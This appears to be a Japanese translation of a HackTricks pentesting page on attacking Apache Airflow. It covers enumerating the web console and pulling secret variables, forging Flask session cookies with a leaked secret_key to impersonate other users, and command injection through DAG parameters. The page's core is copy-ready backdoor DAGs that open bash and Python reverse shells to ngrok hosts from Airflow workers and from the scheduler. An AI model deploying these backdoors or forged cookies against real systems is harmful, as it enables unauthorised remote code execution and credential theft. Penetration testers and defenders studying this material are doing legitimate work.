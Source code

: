 # Apache Airflow セキュリティ

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **会社の広告を HackTricks で見たい**場合や、**PEASS の最新バージョンをダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をご確認ください！
* [**公式の PEASS & HackTricks スワッグ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な [**NFT**](https://opensea.io/collection/the-peass-family) のコレクションをご覧ください
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) または [**Telegram グループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) をフォローしてください。
* **ハッキングのトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) の GitHub リポジトリに PR を提出してください。

</details>

## 基本情報

[**Apache Airflow**](https://airflow.apache.org) は、**データパイプラインやワークフローのスケジューリングとオーケストレーション**に使用されます。データパイプラインのオーケストレーションは、異なるソースからの複雑なデータパイプラインのシーケンス、調整、スケジューリング、管理を指します。これらのデータパイプラインは、ビジネスインテリジェンスアプリケーションやデータサイエンス、ビッグデータアプリケーションをサポートする機械学習モデルによって消費される準備ができたデータセットを提供します。

基本的に、Apache Airflow は、何かしらのイベントや cron が発生したときに、コードの実行をスケジュールすることができます。

## ローカルラボ

### Docker-Compose

[**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) から **docker-compose の設定ファイル**を使用して、完全な Apache Airflow の Docker 環境を起動することができます（MacOS の場合は、Docker VM に少なくとも 6GB の RAM を割り当ててください）。

### Minikube

Apache Airflow を実行する**簡単な方法の一つは、minikube を使用して実行する**ことです。
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflowの設定

Airflowは、設定に**機密情報**を保存することがあります。また、弱い設定が行われている場合もあります。

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Airflowを攻撃する前に、**権限の仕組み**を理解する必要があります。

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## 攻撃

### Webコンソールの列挙

Webコンソールに**アクセス権限**がある場合、次の情報にアクセスできるかもしれません。

* **変数**（ここにはカスタムの機密情報が保存されている場合があります）
* **接続**（ここにはカスタムの機密情報が保存されている場合があります）
* `http://<airflow>/connection/list/`でアクセスできます
* [**設定**](./#airflow-configuration)（`secret_key`やパスワードなどの機密情報がここに保存されている場合があります）
* ユーザーと役割の一覧
* 各DAGの**コード**（興味深い情報が含まれている場合があります）

### 変数の値の取得

Airflowでは、DAGが値にアクセスできるように、変数を保存することができます。これは他のプラットフォームのシークレットと似ています。**十分な権限**がある場合、GUIでこれらの変数にアクセスできます。`http://<airflow>/variable/list/`でアクセスできます。\
Airflowはデフォルトで変数の値をGUIに表示しますが、[**ここ**](https://marclamberti.com/blog/variables-with-apache-airflow/)によれば、GUIに表示される変数の値を**アスタリスク**に設定することも可能です。

![](<../../.gitbook/assets/image (79).png>)

ただし、これらの**値**は、**CLI**（DBアクセスが必要）、**任意のDAG**の実行、**API**を介した変数のエンドポイントへのアクセス（APIを有効化する必要があります）、**さらにはGUIそのもの**からも取得できます。\
GUIからこれらの値にアクセスするには、アクセスしたい**変数を選択**し、**アクション -> エクスポート**をクリックします。\
別の方法は、**検索フィルタリング**を使用して**隠された値**を**ブルートフォース**で取得することです。

![](<../../.gitbook/assets/image (30).png>)

### 特権昇格

**`expose_config`**の設定が**True**になっている場合、**ユーザー**以上の**ロール**からは、**Web上で設定を読み取る**ことができます。この設定には**`secret_key`**が表示されるため、この有効なキーを持つユーザーは、**自分自身を他のユーザーアカウントになりすますための署名済みクッキーを作成**することができます。
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAGバックドア（AirflowワーカーでのRCE）

**DAGが保存されている場所に書き込み権限**がある場合、単純に**リバースシェルを送信する**DAGを作成することができます。\
なお、このリバースシェルは**Airflowワーカーコンテナ内で実行**されます。
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAGバックドア（AirflowスケジューラのRCE）

もし何かを**コードのルートで実行するように設定**した場合、この執筆時点では、それはDAGのフォルダに配置した後、数秒後に**スケジューラによって実行されます**。
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAGの作成

DAGクラスタ内のマシンを**侵害**することができれば、`dags/`フォルダに新しい**DAGスクリプト**を作成し、DAGクラスタ内の他のマシンに**複製**されます。

### DAGコードのインジェクション

GUIからDAGを実行する際には、それに**引数を渡す**ことができます。\
したがって、DAGが適切にコーディングされていない場合、**コマンドインジェクションの脆弱性**が存在する可能性があります。\
これがこのCVEで起こったことです: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

DAG内で**コマンドインジェクションを探すために必要な情報**は、**パラメータ**がコード**`dag_run.conf.get("param_name")`**で**アクセス**されることです。

さらに、同じ脆弱性は**変数**でも発生する可能性があります（注意: 十分な権限があれば、GUIで変数の値を**制御**することができます）。変数は以下のように**アクセス**されます:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
もしもそれらが例えばbashコマンドの中で使用される場合、コマンドインジェクションを実行することができます。

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もしもあなたの**会社をHackTricksで宣伝したい**場合や、**PEASSの最新バージョンにアクセスしたい**場合、またはHackTricksをPDFでダウンロードしたい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をご覧ください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけてください。これは私たちの独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションです
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で私をフォローしてください 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **あなたのハッキングテクニックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>
